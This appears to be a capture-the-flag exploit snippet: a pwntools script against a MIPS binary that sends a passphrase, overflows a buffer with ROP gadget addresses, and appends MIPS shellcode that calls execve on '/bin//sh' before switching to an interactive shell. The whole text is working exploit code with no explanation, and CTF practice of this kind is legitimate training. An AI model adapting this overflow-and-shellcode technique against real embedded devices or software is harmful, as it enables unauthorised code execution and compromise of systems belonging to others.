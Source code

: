 ```bash
# 0x0043965C | addiu $a2,$sp,0x68+var_10 | jalr $fp
# 0x0040ABB8 | move $t9,$a2 | jalr $a2

p.sendlineafter('your passphrase: ','三元一串十元三串')
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)

pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)

itr()
```
